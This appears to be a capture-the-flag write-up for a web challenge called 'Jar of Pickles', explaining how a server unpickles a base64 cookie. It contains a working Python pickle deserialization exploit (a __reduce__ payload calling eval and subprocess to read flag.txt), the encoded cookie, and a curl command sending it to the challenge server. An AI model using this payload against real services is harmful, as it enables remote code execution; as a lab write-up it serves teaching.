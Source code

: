 # Web Exotic Attacks Jar of Pickles

When visiting the page, we only see a centered image of a pickle jar and a link to */jar*. Clicking */jar* just returns: ***pickle***. But the page has a cookie:

```http
Cookie: pickles=...
```

Changing it to a random value triggered an error:

```typescript
binascii.Error: Incorrect padding
File "/home/ctf/app.py", line 17, in jar
data = base64.urlsafe_b64decode(cookie)
...
```

We found that the server uses the pickles cookie, decodes it from Base64, and then probably tries to load it using Python’s pickle.loads() function. This is a common security issue because pickle can run code, and if a server loads untrusted data with it, attackers can make it run anything they want.

Because the server tries to return the result using **json.dumps(...)**, we needed to avoid returning bytes — so we decoded the result to a string.

```python
import pickle, base64

class Exploit:
    def __reduce__(self):
        import subprocess
        return (eval, ("__import__('subprocess').check_output(['cat','flag.txt']).decode()",))

payload = pickle.dumps(Exploit())
cookie = base64.urlsafe_b64encode(payload).decode()
print(cookie)
```

Output: **gASVXgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIxCX19pbXBvcnRfXygnc3VicHJvY2VzcycpLmNoZWNrX291dHB1dChbJ2NhdCcsJ2ZsYWcudHh0J10pLmRlY29kZSgplIWUUpQu**

We sent the malicious payload as a cookie:

```bash
curl -H "Cookie: pickles=gASVXgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIxCX19pbXBvcnRfXygnc3VicHJvY2VzcycpLmNoZWNrX291dHB1dChbJ2NhdCcsJ2ZsYWcudHh0J10pLmRlY29kZSgplIWUUpQu" http://141.85.224.99:8007/jar
```

Output:
```
"SSS{d0nt_3at_t00_m4ny_p1ckl3s}\n"
```
